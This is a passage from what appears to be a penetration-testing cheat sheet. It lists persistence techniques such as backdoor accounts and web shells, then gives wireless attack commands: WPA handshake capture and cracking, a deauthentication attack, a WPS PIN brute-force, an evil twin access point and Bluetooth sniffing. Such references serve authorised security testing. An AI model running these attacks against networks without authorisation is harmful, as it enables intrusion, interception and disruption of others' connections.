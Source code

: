 ### Persistence Mechanisms (For Testing)
- Creating backdoor accounts
- Scheduled tasks/cron jobs
- Registry modifications
- Service creation
- Web shells

## Wireless Network Attacks

### WiFi Reconnaissance
```bash
# Enable monitor mode
airmon-ng start wlan0

# Scan for networks
airodump-ng wlan0mon
```

### Wireless Encryption Attacks
```bash
# Capture WPA handshake
airodump-ng -c 1 --bssid 00:11:22:33:44:55 -w capture wlan0mon

# Deauthentication attack to force handshake
aireplay-ng -0 1 -a 00:11:22:33:44:55 wlan0mon

# Crack WPA password
aircrack-ng -w wordlist.txt capture-01.cap
```

### WPS Attacks
```bash
# Reaver for WPS PIN attack
reaver -i wlan0mon -b 00:11:22:33:44:55 -vv
```

### Evil Twin Attacks
```bash
# Create fake AP
airbase-ng -e "Target WiFi" -c 1 wlan0mon
```

### Bluetooth Attacks
- Bluetooth reconnaissance
  ```bash
  hcitool scan
  btscanner
  ```
- Bluetooth MITM attacks
- Bluetooth sniffing
  ```bash
  btlejack -f hci0
  ```
